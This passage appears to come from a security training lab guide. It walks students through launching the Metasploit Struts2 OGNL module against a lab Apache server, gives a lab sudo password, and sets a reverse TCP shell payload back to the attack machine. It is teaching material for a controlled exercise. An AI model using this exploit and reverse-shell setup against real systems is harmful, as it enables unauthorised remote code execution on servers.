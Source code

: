 

<div class="step" id="step-011"><a href="#step-011" style="font-weight:bold">Step 011</a></div>  

Enter the command `sudo msfconsole` to start Metasploit.   The sudo password is `tet123$$!`

<a href="images/module_06_011.png"><img src="images/module_06_011.png" style="width:100%;height:100%;"></a>  

<div class="step" id="step-012"><a href="#step-012" style="font-weight:bold">Step 012</a></div>  

Enter the following parameters for the attack. The Apache Outside NAT IP can be found in the student Excel workbook.  Use the `ifconfig` command to determine the ATTACK MACHINE IP.  You do not need to exit the msfconsole to run ifconfig use multi/http/struts2_content_type_ognl.

```
set rhost <APACHE OUTSIDE NAT IP>
set rport 8080
set targeturi /showcase.action
set payload linux/x64/shell/reverse_tcp
set lhost <ATTACK MACHINE IP>
set lport 80
```
